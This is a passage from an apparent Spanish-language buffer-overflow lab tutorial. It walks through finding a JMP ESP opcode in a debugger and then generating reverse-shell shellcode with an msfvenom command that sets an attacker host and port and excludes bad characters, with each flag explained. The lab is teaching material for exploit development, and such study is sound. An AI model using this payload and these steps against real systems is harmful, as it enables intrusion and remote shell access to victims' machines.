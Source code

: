 Con el script listo, se buscará la sección de memoria que contiene el OPCode con la instruccón “JMP ESP”, para hacer la búsqueda, hay que dar click en la flecha apuntando a la derecha e ingresar la dirección del OPCode:

![Untitled](/assets/Buffer-Overflow/Lab2/Untitled 12.png)

Ahora se debe crear el breakpoint en esta sección:

![Untitled](/assets/Buffer-Overflow/Lab2/Untitled 13.png)

Una vez hecho, dar click en “Play” y ejecutar el script. De esta forma ahora el flujo del programa parará en esa sección de memoria y se podrá ver que el EIP está apuntando al OPCode.

![Untitled](/assets/Buffer-Overflow/Lab2/Untitled 14.png)

Y si se da un “step into”, se podrá ver que este saltará al ESP.

![Untitled](/assets/Buffer-Overflow/Lab2/Untitled 15.png)

![Untitled](/assets/Buffer-Overflow/Lab2/Untitled 16.png)

## Creación del shellcode y NOPs

Una vez hecho lo anterior ahora queda crear el shellcode que usara para obtener una reverse shell y la asignación de NOP para que el shellcode sea interpretado y ejecutado correctamente.

Para crear el shellcode, se usará msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp 
--platform windows -a x86 LHOST=192.168.0.100 LPORT=4646
-b '\x00\x0d' -f c EXITFUNC=thread

-p # Indica el tipo de payload, se ingresa el SO y 
# cómo se proporcionará la shell.

--platform <OS> -a <x64/x86> # Indica la plataforma a la 
# que será insertado el payload y la arquitectura si es 
# 64 o 32 bits.

LHOST= # Indica que se enviará una reverse shell a una 
# dirección IP.
LPORT= # Indica el puerto por el cual se recibirá la 
# reverse shell

-f # Indica el formato que tomará el shellcode

-b # Indica los badchars a eliminar en el shellcode

EXITFUNC=thread # Sirve para crear un subproceso por el 
# cual se colgará la sesión con la máquina víctima.
# Sin esto, al terminar la sesión en la víctima, el 
# proceso crasheará y el servicio ya no estará disponible
```
